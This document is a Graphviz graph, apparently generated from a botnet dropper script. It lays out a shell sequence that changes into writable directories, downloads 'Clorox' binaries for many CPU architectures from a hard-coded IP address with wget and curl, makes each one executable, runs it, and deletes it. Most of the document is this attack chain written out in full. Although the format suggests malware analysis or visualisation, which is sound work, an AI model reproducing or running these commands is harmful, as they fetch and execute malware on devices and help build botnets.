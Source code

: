 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://46.166.185.45/Clorox.mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://46.166.185.45/Clorox.mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x Clorox.mips "];
14 -> 16 [label=";,"];
16 [label="./Clorox.mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf Clorox.mips "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://46.166.185.45/Clorox.mpsl "];
30 -> 32 [label=";,"];
32 [label="curl -O http://46.166.185.45/Clorox.mpsl "];
32 -> 34 [label=";,"];
34 [label="chmod +x Clorox.mpsl "];
34 -> 36 [label=";,"];
36 [label="./Clorox.mpsl "];
36 -> 38 [label=";,"];
38 [label="rm -rf Clorox.mpsl "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://46.166.185.45/Clorox.sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://46.166.185.45/Clorox.sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x Clorox.sh4 "];
54 -> 56 [label=";,"];
56 [label="./Clorox.sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf Clorox.sh4 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://46.166.185.45/Clorox.x86 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://46.166.185.45/Clorox.x86 "];
72 -> 74 [label=";,"];
74 [label="chmod +x Clorox.x86 "];
74 -> 76 [label=";,"];
76 [label="./Clorox.x86 "];
76 -> 78 [label=";,"];
78 [label="rm -rf Clorox.x86 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://46.166.185.45/Clorox.arm "];
90 -> 92 [label=";,"];
92 [label="curl -O http://46.166.185.45/Clorox.arm "];
92 -> 94 [label=";,"];
94 [label="chmod +x Clorox.arm "];
94 -> 96 [label=";,"];
96 [label="./Clorox.arm "];
96 -> 98 [label=";,"];
98 [label="rm -rf Clorox.arm "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://46.166.185.45/Clorox.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://46.166.185.45/Clorox.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox.pcc "];
214 -> 216 [label=";,"];
216 [label="./Clorox.pcc "];
216 -> 217 [label=";,"];
217 [label="rm -rf Clorox.pcc "];
217 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://46.166.185.45/Clorox.i686 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://46.166.185.45/Clorox.i686 "];
132 -> 134 [label=";,"];
134 [label="chmod +x Clorox.i686 "];
134 -> 136 [label=";,"];
136 [label="./Clorox.i686 "];
136 -> 138 [label=";,"];
138 [label="rm -rf Clorox.i686 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://46.166.185.45/Clorox.i586 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://46.166.185.45/Clorox.i586 "];
152 -> 154 [label=";,"];
154 [label="chmod +x Clorox.i586 "];
154 -> 156 [label=";,"];
156 [label="./Clorox.i586 "];
156 -> 158 [label=";,"];
158 [label="rm -rf Clorox.i586 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://46.166.185.45/Clorox.m68k "];
170 -> 172 [label=";,"];
172 [label="curl -O http://46.166.185.45/Clorox.m68k "];
172 -> 174 [label=";,"];
174 [label="chmod +x Clorox.m68k "];
174 -> 176 [label=";,"];
176 [label="./Clorox.m68k "];
176 -> 178 [label=";,"];
178 [label="rm -rf Clorox.m68k "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://46.166.185.45/Clorox.spc "];
190 -> 192 [label=";,"];
192 [label="curl -O http://46.166.185.45/Clorox.spc "];
192 -> 194 [label=";,"];
194 [label="chmod +x Clorox.spc "];
194 -> 196 [label=";,"];
196 [label="./Clorox.spc "];
196 -> 198 [label=";,"];
198 [label="rm -rf Clorox.spc "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://46.166.185.45/Clorox.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://46.166.185.45/Clorox.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox.pcc "];
214 -> 216 [label=";,"];
216 [label="./Clorox.pcc "];
216 -> 217 [label=";,"];
}
